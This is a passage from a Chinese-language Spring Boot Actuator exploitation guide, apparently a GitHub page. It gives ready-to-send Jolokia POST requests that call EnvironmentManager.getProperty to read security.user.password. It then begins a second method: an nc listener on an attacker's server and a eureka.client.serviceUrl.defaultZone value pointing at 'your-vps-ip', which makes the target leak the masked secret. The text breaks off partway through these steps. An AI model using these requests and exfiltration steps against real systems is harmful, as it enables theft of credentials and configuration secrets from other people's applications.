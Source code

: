 - 调用 `org.springframework.cloud.context.environment` Mbean

> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```php
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```php
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

- 调用其他 Mbean

> 目标具体情况和存在的 Mbean 可能不一样，可以搜索 getProperty 等关键词，寻找可以调用的方法。

### 0x04：获取被星号脱敏的密码的明文 (方法二)

#### 利用条件：

- 可以 GET 请求目标网站的 `/env`
- 可以 POST 请求目标网站的 `/env`
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```php
nc -lvk 80
```

##### 步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性

将下面 `http://value:${security.user.password}@your-vps-ip` 中的 `security.user.password` 换成自己想要获取的对应的星号 \* 遮掩的属性名；

`your-vps-ip` 换成自己外网服务器的真实 ip 地址。

